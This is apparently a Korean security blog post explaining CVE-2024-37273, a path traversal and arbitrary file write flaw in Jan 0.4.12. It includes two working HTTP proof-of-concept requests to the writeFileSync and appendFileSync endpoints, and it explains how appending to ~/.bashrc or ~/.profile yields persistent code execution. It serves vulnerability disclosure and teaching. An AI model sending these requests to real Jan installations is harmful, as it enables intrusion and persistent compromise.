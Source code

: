```yaml
---
title: "[하루한줄] CVE-2024-37273 : Jan의 임의 파일 업로드 취약점"
author: pwndorei
tags: [Jan, arbitrary file upload, pwndorei]
categories: [1day1line]
date: 2024-06-22 19:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[https://github.com/HackAllSec/CVEs/tree/main/Jan Arbitrary File Upload vulnerability](https://github.com/HackAllSec/CVEs/tree/main/Jan%20Arbitrary%20File%20Upload%20vulnerability)

## Target

- Jan 0.4.12

## Explain

Jan은 100% 오프라인으로 동작하는 ChatGPT 대안으로써 기존 ChatGPT 등을 사용할 때와는 달리 데이터가 외부로 유출될 걱정이 없다는 것과 무료이고 오픈 소스라는 특징이 있습니다.

또한 OpenAI와 동일한 기능을 하도록 `/threads`, `/messages` 등의 API가 구현되어 있고 시간이 지날 수록 지원하는 API가 점점 많아지고 있습니다.

 이들 중에서도 writeFileSync와 appendFileSync API에서 파라미터 검증을 전혀 수행하지 않아 임의의 경로에 파일을 업로드할 수 있는 취약점이 발생했습니다.

먼저 아래는 writeFileSync를 통해 `/tmp/a.txt` 파일에 “abc”라는 데이터를 쓰는 poc입니다.

```
POST /v1/app/writeFileSync HTTP/1.1
Host: {{Host}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://<IP>:<Port>
contentType: application/json
Content-Type: text/plain;charset=UTF-8
Content-Length: 35
Origin: http://<IP>:<Port>
Connection: close

["/../../../../../tmp/a.txt","abc"]
```

`/v1/app/writeFileSync` 엔드포인트에 파라미터로 파일 경로와 데이터를 전달하고 있음을 알 수 있습니다. 파일 경로로 전달된 `/../../../../../tmp/a.txt`에 포함된 Path Traversal을 필터링하지 않기 때문에 `/tmp/a.txt` 파일에 데이터가 쓰이게 됩니다.

마찬가지로 appendFileSync도 아래와 같이 익스플로잇할 수 있습니다

```
POST /v1/app/appendFileSync HTTP/1.1
Host: {{Host}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://<IP>:<Port>
contentType: application/json
Content-Type: text/plain;charset=UTF-8
Content-Length: 48
Origin: http://<IP>:<Port>
Connection: close

["file:/../../../../../../tmp/a.txt","bbb  ccc"]
```

writeFileSync와는 다르게 파일 경로 문자열 앞에 `file:`이 추가된 모습이고 `/tmp/a.txt` 파일의 끝에 “bbb   ccc”라는 문자열을 추가하는 동작을 합니다.

이를 통해 스케쥴링된 작업과 관련된 파일이나 `~/.profile`, `~/.bashrc` 등에 데이터를 추가하는 것으로 부팅 혹은 사용자 로그인 시마다 공격자가 설정한 코드가 실행되도록 하는 것이 가능합니다.